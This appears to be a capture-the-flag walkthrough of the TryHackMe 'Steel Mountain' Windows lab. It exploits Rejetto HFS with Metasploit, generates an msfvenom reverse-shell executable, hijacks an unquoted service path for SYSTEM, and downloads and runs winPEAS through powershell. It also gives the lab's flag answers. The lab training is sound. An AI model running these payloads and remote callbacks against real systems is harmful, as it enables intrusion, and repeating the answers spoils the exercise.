


# Steel Mountain

Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

# [Task 1] Introduction

In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

If you don't have the right security tools and environment, deploy your own Kali Linux machine and control it in your browser, with our Kali Room.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

## #1 - Who is the employee of the month?

*Hint: Reverse image search*

~~~
$ curl -s http://10.10.97.217/ --output index.html
$ cat index.html 
��<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Steel Mountain</title>

</head>
<body>

<h3>Employee of the month</h3>

</body>
</html> 
~~~

The page displays a picture named `BillHarper.png`

Answer: `Bill Harper`

# [Task 2] Initial Access

Now you have deployed the machine, lets get an initial shell!

## #1 - Scan the machine with nmap. What is the other port running a web server on?

~~~
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2020-06-05T15:20:38+00:00
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2020-06-04T15:15:51
|_Not valid after:  2020-12-04T15:15:51
|_ssl-date: 2020-06-05T15:20:52+00:00; 0s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49161/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:17:95:c4:ed:a0 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-05T15:20:38
|_  start_date: 2020-06-05T15:15:45
~~~

Another web service is running on port `8080`.

## #2 - Take a look at the other web server. What file server is running?

When we connect to http://10.10.97.217:8080, we can see a webpage which name is HFS. There is a link at the bottom of the page that redirects to http://www.rejetto.com/hfs/.

Answer: `rejetto http file server`

## #3 - What is the CVE number to exploit this file server?

*Hint: https://www.exploit-db.com/*

The version install is 2.3. Let's find vulnerabilities affecting Rejetto HFS file server 2.3. We land to https://www.exploit-db.com/exploits/39161 (CVE: 2014-6287)

Answer: `2014-6287`

## #4 - Use Metasploit to get an initial shell. What is the user flag?

*Hint: C:\Users\bill\Desktop*

Let's search for the exploit:

~~~
$ msfconsole -q
msf5 > search cve-2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
~~~

Let's select it and check the required options:

~~~
msf5 > use 0
msf5 exploit(windows/http/rejetto_hfs_exec) > show options 

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.160.32     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    10.8.50.72       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    5555             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   Automatic
~~~

We need to set the IP and port for both the target and our attacking machine:

~~~
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.160.32
RHOSTS => 10.10.160.32
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.8.50.72
SRVHOST => 10.8.50.72
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 5555
SRVPORT => 5555
~~~

Now, start the exploit:

~~~
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit 

[*] Started reverse TCP handler on 10.8.50.72:4444 
[*] Using URL: http://10.8.50.72:5555/nlXmp52ty62IBtr
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /nlXmp52ty62IBtr
[*] Sending stage (176195 bytes) to 10.10.160.32
[*] Meterpreter session 1 opened (10.8.50.72:4444 -> 10.10.160.32:59836) at 2020-06-06 06:32:48 +0200
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\LJHvbhrX.vbs' on the target
[!] Tried to delete %TEMP%\LJHvbhrX.vbs, unknown result

meterpreter > 
~~~

Success! We now have a meterpreter. Let's get the flag.

~~~
meterpreter > cd c:/users/bill/desktop
meterpreter > ls
Listing: c:\users\bill\desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 13:07:07 +0200  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 14:42:38 +0200  user.txt

meterpreter > cat user.txt
b04763b6fcf51fcd7c13abc7db4fd365
~~~

Answer: `b04763b6fcf51fcd7c13abc7db4fd365`

# [Task 3] Privilege Escalation

Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!

## #1

**Instructions**

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). Now you can use the upload command in Metasploit to upload the script.

To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:

**Answer**

First download PowerUp.ps1:
~~~
$ wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
~~~

Then in your mterpreter session:

~~~
meterpreter > pwd
c:\users\bill\desktop
meterpreter > upload /data/documents/challenges/TryHackMe/Steel_Mountain/files/PowerUp.ps1
[*] uploading  : /data/documents/challenges/TryHackMe/Steel_Mountain/files/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 483.26 KiB of 483.26 KiB (100.0%): /data/documents/challenges/TryHackMe/Steel_Mountain/files/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /data/documents/challenges/TryHackMe/Steel_Mountain/files/PowerUp.ps1 -> PowerUp.ps1
meterpreter > load powershell 
Loading extension powershell...Success.
meterpreter > powershell_shell 
PS > ls

    Directory: C:\users\bill\desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---          6/5/2020   9:34 PM     494860 PowerUp.ps1
-a---         9/27/2019   5:42 AM         70 user.txt

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...

[*] Checking for unquoted service paths...

ServiceName   : AdvancedSystemCareService9
Path          : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>

ServiceName   : AWSLiteAgent
Path          : C:\Program Files\Amazon\XenTools\LiteAgent.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AWSLiteAgent' -Path <HijackPath>

ServiceName   : IObitUnSvr
Path          : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'IObitUnSvr' -Path <HijackPath>

ServiceName   : LiveUpdateSvc
Path          : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'LiveUpdateSvc' -Path <HijackPath>

[*] Checking service executable and argument permissions...

[*] Checking service permissions...

[*] Checking %PATH% for potentially hijackable .dll locations...

HijackablePath : C:\Windows\system32\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\system32\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\System32\WindowsPowerShell\v1.0\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\System32\WindowsPowerShell\v1.0\\wlbsctrl.dll' -Command '...'

[*] Checking for AlwaysInstallElevated registry key...

[*] Checking for Autologon credentials in registry...

[*] Checking for vulnerable registry autoruns and configs...

[*] Checking for vulnerable schtask files/configs...

[*] Checking for unattended install files...

[*] Checking for encrypted web.config strings...

[*] Checking for encrypted application pool and virtual directory passwords...

PS >
~~~

## #2

**Instructions**

Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name?

**Answer**

Answer: `AdvancedSystemCareService9`

## #3

**Instructions**

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

**Answer**

The following service has an unquoted path that we will exploit. If we generate an executable which name is Advanced.exe, we may be able to abuse the service and start it with our own executable.

~~~
ServiceName   : AdvancedSystemCareService9
Path          : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>
~~~

Let's generate a reverse shell with `msfvenom`.

~~~
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.50.72 LPORT=4443 -f exe -o Advanced.exe
~~~

Now, let's upload our executable:

~~~
PS> ^Z
Background channel 4? [y/N]  y
meterpreter > cd "C:\Program Files (x86)\IObit"
meterpreter > ls
Listing: C:\Program Files (x86)\IObit
=====================================

Mode             Size   Type  Last modified              Name
----             ----   ----  -------------              ----
40777/rwxrwxrwx  32768  dir   2019-09-26 17:17:30 +0200  Advanced SystemCare
40777/rwxrwxrwx  16384  dir   2019-09-26 17:17:48 +0200  IObit Uninstaller
40777/rwxrwxrwx  4096   dir   2019-09-26 17:17:46 +0200  LiveUpdate

meterpreter > upload /data/documents/challenges/TryHackMe/Steel_Mountain/files/Advanced.exe
[*] uploading  : /data/documents/challenges/TryHackMe/Steel_Mountain/files/Advanced.exe -> Advanced.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /data/documents/challenges/TryHackMe/Steel_Mountain/files/Advanced.exe -> Advanced.exe
[*] uploaded   : /data/documents/challenges/TryHackMe/Steel_Mountain/files/Advanced.exe -> Advanced.exe
meterpreter > ls
Listing: C:\Program Files (x86)\IObit
=====================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   32768  dir   2019-09-26 17:17:30 +0200  Advanced SystemCare
100777/rwxrwxrwx  73802  fil   2020-06-05 23:03:15 +0200  Advanced.exe
40777/rwxrwxrwx   16384  dir   2019-09-26 17:17:48 +0200  IObit Uninstaller
40777/rwxrwxrwx   4096   dir   2019-09-26 17:17:46 +0200  LiveUpdate
~~~

Now, let's start a handler as a background job (press ENTER to background the job once you see `Started reverse TCP handler`):

~~~
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(windows/http/rejetto_hfs_exec) > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.8.50.72
LHOST => 10.8.50.72
msf5 exploit(multi/handler) > set LPORT 4443
LPORT => 4443
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.8.50.72:4443 
msf5 exploit(multi/handler) > 

msf5 exploit(multi/handler) > jobs 

Jobs
====

  Id  Name                    Payload                          Payload opts
  --  ----                    -------                          ------------
  0   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://10.8.50.72:4443
~~~

Now, let's reconnect to our previous session to restart the service.

~~~
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  1         meterpreter x86/windows  STEELMOUNTAIN\bill @ STEELMOUNTAIN  10.8.50.72:4444 -> 10.10.160.32:59836 (10.10.160.32)

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell 
Process 3224 created.
Channel 6 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9

[*] Sending stage (176195 bytes) to 10.10.160.32
sc start AdvancedSystemCareService9
[*] Meterpreter session 2 opened (10.8.50.72:4443 -> 10.10.160.32:59859) at 2020-06-06 06:40:24 +0200

^Z
Background channel 6? [y/N]  y
~~~

From here you have about 30 seconds to execute all the commands (background the current session, connect to the elevated new session, and get the flag). After this delay, the elevated session is closed, the handler is stopped and you'll need to kill your session, restart the handler, reconnect to the initial session, get a shell, and restart the service. I had to do it a couple of times before I could complete all the commands and get the flag.

We see that a new session has been created with `NT AUTHORITY\SYSTEM` privileges. Let's connect to it and get the flag.

~~~
^Z
Background channel 6? [y/N]  y
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                          Connection
  --  ----  ----                     -----------                          ----------
  1         meterpreter x86/windows  STEELMOUNTAIN\bill @ STEELMOUNTAIN   10.8.50.72:4444 -> 10.10.160.32:59836 (10.10.160.32)
  6         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ STEELMOUNTAIN  10.8.50.72:4443 -> 10.10.160.32:59883 (10.10.160.32)

msf5 exploit(multi/handler) > sessions 8
[*] Starting interaction with 8...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > cd c:/users/administrator/desktop
meterpreter > cat root.txt
9af5f314f57607c00fd09803a587db80
meterpreter > 
meterpreter > 
[*] 10.10.160.32 - Meterpreter session 8 closed.  Reason: Died
~~~

## #4 - What is the root flag?

*Hint: To restart a service in Windows use the following command: sc start &lt;service path name from question 2>*

Answer: `9af5f314f57607c00fd09803a587db80`

# [Task 4] Access and Escalation Without Metasploit

Now let's complete the room without the use of Metasploit.

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to

## #1

**Instructions**

To begin we shall be using the same CVE. However, this time let's use this [exploit](https://www.exploit-db.com/exploits/39161).

*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*

To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!

**Solution**

Download:
* `nc.exe` from https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip (unzip)
* the exploit from https://www.exploit-db.com/download/39161 (rename it exploit.py and edit it to replace your IP)

Now, start a handler on port 443 (you'll need to be root)

~~~
unknown@kali:/data/tmp$ sudo rlwrap nc -nlvp 443
listening on [any] 443 ...
~~~

Start your web server on port 80 (as root):

~~~
unknown@kali:/data/tmp$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Run the exploit.

~~~
unknown@kali:/data/tmp$ python exploit.py 10.10.247.243 8080
~~~

You should see connections to your python web server, and get a shell in your handler.

~~~
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd c:\users\bill\desktop
cd c:\users\bill\desktop

c:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of c:\Users\bill\Desktop

09/27/2019  09:08 AM    <DIR>          .
09/27/2019  09:08 AM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)  44,131,753,984 bytes free

c:\Users\bill\Desktop>more user.txt
more user.txt
b04763b6fcf51fcd7c13abc7db4fd365

c:\Users\bill\Desktop>
~~~

## #2

**Instructions**

Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.

Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running.

What powershell -c command could we run to manually find out the service name?

Format is "powershell -c "command here"

**Solution**

Download [WinPEAS](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat) and make it available through your python web server:

~~~
unknown@kali:/data/tmp$ wget https://raw.githubusercontent.com/carlospolop/unknown@kali:/data/tmp$ unknown@kali:/data/tmp$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

Now from your reverse shell, download and execute winPEAS:

~~~
c:\Users\bill\Desktop>powershell -c "Invoke-WebRequest -Uri 'http://10.8.50.72:8000/winPEAS.bat' -OutFile 'C:\Users\bill\Desktop\winpeas.bat'"
powershell -c "Invoke-WebRequest -Uri 'http://10.8.50.72:8000/winPEAS.bat' -OutFile 'C:\Users\bill\Desktop\winpeas.bat'"

c:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of c:\Users\bill\Desktop

06/05/2020  11:27 PM    <DIR>          .
06/05/2020  11:27 PM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
06/05/2020  11:27 PM            32,976 winpeas.bat
               2 File(s)         33,046 bytes
               2 Dir(s)  44,259,053,568 bytes free

c:\Users\bill\Desktop>winpeas.bat
winpeas.bat
            *((,.,/((((((((((((((((((((/,  */               
     ,/*,..*(((((((((((((((((((((((((((((((((,           
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*       
   ((((((((((((((((* *****,,,/########## .(* ,((((((   
   (((((((((((/* ******************/####### .(. ((((((
   ((((((..******************/@@@@@/***/######* /((((((
   ,,..**********************@@@@@@@@@@(***,#### ../(((((
   , ,**********************#@@@@@#@@@@*********##((/ /((((
   ..(((##########*********/#@@@@@@@@@/*************,,..((((
   .(((################(/******/@@@@@#****************.. /((
   .((########################(/************************..*(
   .((#############################(/********************.,(
   .((##################################(/***************..(
   .((######################################(************..(
   .((######(,.***.,(###################(..***(/*********..(
  .((######*(#####((##################((######/(********..(
   .((##################(/**********(################(**...(
   .(((####################/*******(###################.((((  
   .(((((############################################/  /((
   ..(((((#########################################(..(((((.
   ....(((((#####################################( .((((((.
   ......(((((#################################( .(((((((.
   (((((((((. ,(############################(../(((((((((.
       (((((((((/,  ,####################(/..((((((((((.
             (((((((((/,.  ,*//////*,. ./(((((((((((.
                (((((((((((((((((((((((((((/"
                       by carlospolop
ECHO is off.
Advisory: winpeas should be used for authorized penetration testing and/or educational purposes only.Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
ECHO is off.
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [*] BASIC SYSTEM INFO <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] WINDOWS OS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Check for vulnerabilities for the OS version with the applied patches
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#kernel-exploits

Host Name:                 STEELMOUNTAIN
OS Name:                   Microsoft Windows Server 2012 R2 Datacenter Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-90000-00000-AA632
Original Install Date:     9/26/2019, 7:11:06 AM
System Boot Time:          6/5/2020, 11:02:26 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.2.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,048 MB
Available Physical Memory: 1,431 MB
Virtual Memory: Max Size:  2,432 MB
Virtual Memory: Available: 1,601 MB
Virtual Memory: In Use:    831 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\STEELMOUNTAIN
Hotfix(s):                 6 Hotfix(s) Installed.
                           [01]: KB2919355
                           [02]: KB2919442
                           [03]: KB2937220
                           [04]: KB2938772
                           [05]: KB2939471
                           [06]: KB2949621
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.247.243
                                 [02]: fe80::841b:4ca5:ba80:80a3
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

Caption                                     Description  HotFixID   InstalledOn  
http://support.microsoft.com/?kbid=2919355  Update       KB2919355  3/21/2014    
http://support.microsoft.com/?kbid=2919442  Update       KB2919442  3/21/2014    
http://support.microsoft.com/?kbid=2937220  Update       KB2937220  3/21/2014    
http://support.microsoft.com/?kbid=2938772  Update       KB2938772  3/21/2014    
http://support.microsoft.com/?kbid=2939471  Update       KB2939471  3/21/2014    
http://support.microsoft.com/?kbid=2949621  Hotfix       KB2949621  3/21/2014    

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] DATE and TIME <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] You may need to adjust your local date/time to exploit some vulnerability
Fri 06/05/2020 
11:27 PM

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Audit Settings <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Check what is being logged

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] WEF Settings <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Check where are being sent the logs
ERROR: The system was unable to find the specified registry key or value.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] LAPS installed? <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Check what is being logged
ERROR: The system was unable to find the specified registry key or value.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] LSA protection? <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Active if "1"

ERROR: The system was unable to find the specified registry key or value.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Credential Guard? <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Active if "1" or "2"

ERROR: The system was unable to find the specified registry key or value.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] WDigest? <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Plain-text creds in memory if "1"
ERROR: The system was unable to find the specified registry key or value.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Number of cached creds <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] You need System to extract them

ERROR: The system was unable to find the specified registry key or value.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] UAC Settings <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] If the results read ENABLELUA REG_DWORD 0x1, part or all of the UAC components are on
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Registered Anti-Virus(AV) <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
ERROR:
Description = Invalid namespace

Checking for defender whitelisted PATHS
ERROR: The system was unable to find the specified registry key or value.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] PS settings <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
PowerShell v2 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine
    PowerShellVersion    REG_SZ    2.0

PowerShell v5 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine
    PowerShellVersion    REG_SZ    4.0

Transcriptions Settings:
ERROR: The system was unable to find the specified registry key or value.
Module logging settings:
ERROR: The system was unable to find the specified registry key or value.
Scriptblog logging settings:
ERROR: The system was unable to find the specified registry key or value.

PS default transcript history
The system cannot find the file specified.

Checking PS history file
The system cannot find the path specified.

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] MOUNTED DISKS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Maybe you find something interesting
Caption  
C:       

_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] ENVIRONMENT <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Interesting information?
ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\bill\AppData\Roaming
CommonProgramFiles=C:\Program Files (x86)\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=STEELMOUNTAIN
ComSpec=C:\Windows\system32\cmd.exe
expl=no
FP_NO_HOST_CHECK=NO
HOMEDRIVE=C:
HOMEPATH=\Users\bill
LOCALAPPDATA=C:\Users\bill\AppData\Local
LOGONSERVER=\\STEELMOUNTAIN
long=no
NUMBER_OF_PROCESSORS=1
OS=Windows_NT
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_ARCHITEW6432=AMD64
PROCESSOR_IDENTIFIER=Intel64 Family 6 Model 79 Stepping 1, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=4f01
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files (x86)
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
PUBLIC=C:\Users\Public
SESSIONNAME=Console
SystemDrive=C:
SystemRoot=C:\Windows
TEMP=C:\Users\bill\AppData\Local\Temp\1
